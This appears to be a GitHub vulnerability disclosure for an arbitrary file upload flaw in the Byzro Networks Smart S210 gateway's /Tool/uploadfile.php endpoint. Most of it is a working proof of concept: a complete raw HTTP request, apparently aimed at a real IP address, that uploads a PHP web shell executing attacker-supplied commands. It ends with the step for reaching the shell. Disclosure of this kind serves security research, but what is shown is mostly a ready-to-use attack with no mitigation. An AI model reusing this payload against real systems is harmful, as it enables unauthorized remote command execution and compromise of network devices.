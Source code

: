 There is an arbitrary file upload vulnerability in Byzro Networks Smart S210 multi-service security gateway intelligent management platform

version:S210

ruote:/Tool/uploadfile.php

1. The login interface is as shown in the figure.
![image](https://github.com/willchen0011/cve/assets/13689053/14e5a077-f58f-443f-b153-2d7ceec879c2)

2. Construct POC and upload src.php file
POC
```
POST /Tool/uploadfile.php? HTTP/1.1
Host: 183.248.30.228:8443
Cookie: PHPSESSID=fd847fe4280e50c2c3855ffdee69b8f8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13979701222747646634037182887
Content-Length: 405
Origin: https://183.248.30.228:8443
Referer: https://183.248.30.228:8443/Tool/uploadfile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="file_upload"; filename="contents.php"
Content-Type: application/octet-stream

<?php
system($_POST["passwd"]);
?>
-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="txt_path"

/home/src.php
-----------------------------13979701222747646634037182887--
```
![image](https://github.com/willchen0011/cve/assets/13689053/fa9306aa-60fe-4395-9f85-9ac3c26f0125)

3. Visit /home/src.php to get webshell.

![image](https://github.com/willchen0011/cve/assets/13689053/46a09ab2-55ed-44a3-8b73-5f4bb164f3ce)
